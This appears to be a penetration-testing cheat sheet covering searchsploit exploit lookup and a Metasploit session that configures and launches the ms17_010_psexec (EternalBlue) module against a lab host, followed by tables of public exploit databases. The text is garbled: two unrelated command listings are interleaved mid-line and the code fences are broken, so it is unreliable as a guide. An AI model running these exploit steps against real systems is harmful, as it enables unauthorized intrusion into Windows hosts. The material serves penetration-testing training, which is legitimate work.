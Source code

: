 ``````shell-session
```bash```

# Update exploit databaseAny options set to yes need to be set to work.

searchsploit -uRHOST = target IP

LHOST = attack host IP (IP associated with tun0)

# Basic search```shell-session

searchsploit openssh 7.2msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 10.10.10.40

RHOSTS => 10.10.10.40

# Search with case sensitivitymsf6 exploit(windows/smb/ms17_010_psexec) > set LHOST tun0

searchsploit -c "OpenSSH 7.2"LHOST => tun0

```

# Show exploit pathCheck first to see if vulnerable:

searchsploit -p 45233```shell-session

msf6 exploit(windows/smb/ms17_010_psexec) > check

# Copy exploit to current directory```

searchsploit -m 45233Run/exploit:

```shell-session

# Search excluding specific termsmsf6 exploit(windows/smb/ms17_010_psexec) > exploit

searchsploit ssh --exclude="denial"```

```

**Search Operators**:
| Operator | Usage | Example |
|----------|-------|---------|
| **Exact match** | `searchsploit -t "exact title"` | Precise title matching |
| **Multiple terms** | `searchsploit term1 term2` | AND logic |
| **Version range** | `searchsploit "application 2.[0-5]"` | Version patterns |

## Public Exploit Databases

### Primary Databases

| Database | URL | Specialization |
|----------|-----|----------------|
| **Exploit-DB** | https://www.exploit-db.com/ | Comprehensive exploit archive |
| **National Vulnerability Database** | https://nvd.nist.gov/ | Official CVE database |
| **Rapid7 Vulnerability DB** | https://www.rapid7.com/db/ | Metasploit-focused exploits |
| **Vulnerability Lab** | https://www.vulnerability-lab.com/ | Independent research |
| **PacketStorm** | https://packetstormsecurity.com/ | Security tools and exploits |

### Specialized Resources

| Resource | Focus Area | Access Method |
|----------|------------|---------------|
| **MITRE CVE** | CVE assignments | Web interface |
| **CXSecurity** | Daily exploits | RSS/Web |
| **0day.today** | Recent exploits | Subscription |
``````